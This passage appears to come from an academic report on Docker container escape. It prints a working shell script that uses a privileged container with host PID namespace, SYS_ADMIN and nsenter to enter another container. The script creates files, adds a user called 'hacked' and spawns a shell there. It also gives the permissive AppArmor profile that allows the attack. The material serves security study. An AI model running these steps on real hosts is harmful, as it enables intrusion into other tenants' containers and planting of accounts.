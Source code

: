 In accordance with the breaking out to host instance, the attacker aims to execute some commands in target process's root directory.
In the following shell script, the attacker uses the docker client to find the pid of the target container and commits the attack:

\begin{lstlisting}[style=shellscript, caption={2\_run\_attacker\_to\_container.sh}]
#!/bin/sh

#List all running containers and keep the one including 'debian'
docker ps | grep debian > dockerps
#Keep the container's id
cut -d' ' -f1 dockerps > containerid
container_id=$(cat containerid)
#Find the pid of the container's process
docker inspect --format {{.State.Pid}} ${container_id} > PID
container_pid=$(cat PID)

#List contents of container's root directory
echo "====== ls / ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_ADMIN debian:latest nsenter --target ${container_pid} --mount ls /

#Touch a new file in container's root directory
echo "====== touch HelloFromTheOtherSide ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_ADMIN debian:latest nsenter --target ${container_pid} --mount touch HelloFromTheOtherSide

#Add a new user in the container
echo "====== useradd hacked ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_ADMIN debian:latest nsenter --target ${container_pid} --mount /usr/sbin/useradd hacked

#Create a shell in the container
echo "====== /bin/bash ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_ADMIN debian:latest nsenter --target ${container_pid} --mount /bin/bash
#Clear files
rm PID
rm dockerps
rm containerid
\end{lstlisting}

The docker run command executed above have the same flags as in the attack to host, except for the capability SYS\_PTRACE which is no longer needed as we are targeting PIDs different from the PID 1. 

Moreover, after the attacker\_profile is loaded, it is used in order to allow the attack, exactly like the one used in host's attack except for the rule capability sys\_ptrace.

\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile attacker\_profile}]
#include <tunables/global>

profile attacker_profile flags=(attach_disconnected,mediate_deleted) {
        capability sys_admin,
        file,  #This rule is needed so that I can work with files (create files/directories, copy, etc)
        capability sys_chroot,
        ptrace (read,trace),
}
\end{lstlisting}
	

